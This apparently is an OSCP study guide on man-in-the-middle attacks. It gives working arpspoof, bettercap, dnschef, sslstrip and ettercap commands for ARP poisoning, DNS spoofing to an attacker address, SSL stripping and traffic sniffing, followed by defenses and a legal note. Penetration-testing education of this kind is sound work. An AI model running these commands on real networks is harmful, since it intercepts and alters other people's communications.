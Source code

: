 # Man-in-the-Middle (MITM) Attacks

Man-in-the-Middle (MITM) attacks involve intercepting and potentially altering communications between two parties. This guide covers common MITM techniques and tools for the OSCP exam.

## 📋 Table of Contents
1. [ARP Spoofing](#arp-spoofing)
2. [DNS Spoofing](#dns-spoofing)
3. [SSL Stripping](#ssl-stripping)
4. [Ettercap](#ettercap)
5. [Bettercap](#bettercap)
6. [Defense](#-defense)
7. [Practice](#-practice)

## ARP Spoofing

### ARP Cache Poisoning
```bash
# Enable IP forwarding
echo 1 > /proc/sys/net/ipv4/ip_forward

# Using arpspoof
arpspoof -i eth0 -t TARGET_IP ROUTER_IP
arpspoof -i eth0 -t ROUTER_IP TARGET_IP

# Using bettercap
set arp.spoof.targets TARGET_IP
arp.spoof on
```

### Verify ARP Cache
On target machine:
```bash
arp -a
```

## DNS Spoofing

### Using bettercap
```bash
# Start bettercap
bettercap -iface eth0

# Enable DNS server
set dns.spoof.all true
set dns.spoof.domains example.com
set dns.spoof.address ATTACKER_IP
dns.spoof on
```

### Using dnschef
```bash
dnschef --interface 0.0.0.0 --nameserver 8.8.8.8 --fakeip ATTACKER_IP --fakedomains example.com
```

## SSL Stripping

### Using sslstrip2 (bettercap)
```bash
# In bettercap
set http.proxy.sslstrip true
http.proxy on

# Or with sslstrip
sslstrip -l 8080
iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port 8080
```

### Using mitmproxy
```bash
mitmproxy -T --host -w outfile
```

## Ettercap

### Installation
```bash
# Kali Linux
sudo apt install ettercap-graphical
```

### Basic Usage
```bash
# Text mode
sudo ettercap -T -i eth0 -M arp:remote /TARGET_IP// /ROUTER_IP//

# With DNS spoofing
sudo ettercap -T -i eth0 -P dns_spoof -M arp:remote /TARGET_IP// /ROUTER_IP//
```

## Bettercap

### Installation
```bash
# Kali Linux
sudo apt install bettercap
```

### Basic Usage
```bash
# Start bettercap
sudo bettercap -iface eth0

# ARP spoofing
set arp.spoof.targets TARGET_IP
arp.spoof on

# Sniff traffic
net.sniff on

# Enable HTTP proxy
set http.proxy.sslstrip true
http.proxy on
```

## 🛡 Defense

### ARP Spoofing Protection
- **Static ARP entries**: `arp -s IP MAC`
- **ARP monitoring tools**: arpwatch, XArp
- **Port security**: On network switches

### SSL/TLS Protection
- **HSTS**: HTTP Strict Transport Security
- **Certificate Pinning**: In mobile apps
- **DNSSEC**: For DNS security

### Network Segmentation
- **VLANs**: Separate sensitive traffic
- **802.1X**: Port-based network access control
- **Encryption**: Use VPNs for remote access

## 🛠 Tools

### MITM Tools
- **Ettercap**: Comprehensive MITM suite
- **Bettercap**: Modular MITM framework
- **MITMf**: Framework for MITM attacks
- **EtherApe**: Network traffic monitor

### Traffic Analysis
- **Wireshark**: Network protocol analyzer
- **Tcpdump**: Command-line packet analyzer
- **Driftnet**: Captures images from network traffic

## 📚 Resources
- [MITM Attack Explained](https://www.imperva.com/learn/application-security/man-in-the-middle-attack-mitm/)
- [Bettercap Documentation](https://www.bettercap.org/)
- [Ettercap Documentation](https://www.ettercap-project.org/)
- [MITM Attack Prevention](https://www.cloudflare.com/learning/security/threats/man-in-the-middle-attack/)

## 🎯 Practice
1. Set up a lab environment with virtual machines
2. Practice ARP spoofing between VMs
3. Capture and analyze HTTP traffic
4. Try SSL stripping on unsecured websites

## ⚠️ Legal Note
Only perform MITM attacks on networks you own or have explicit permission to test. Unauthorized testing is illegal.
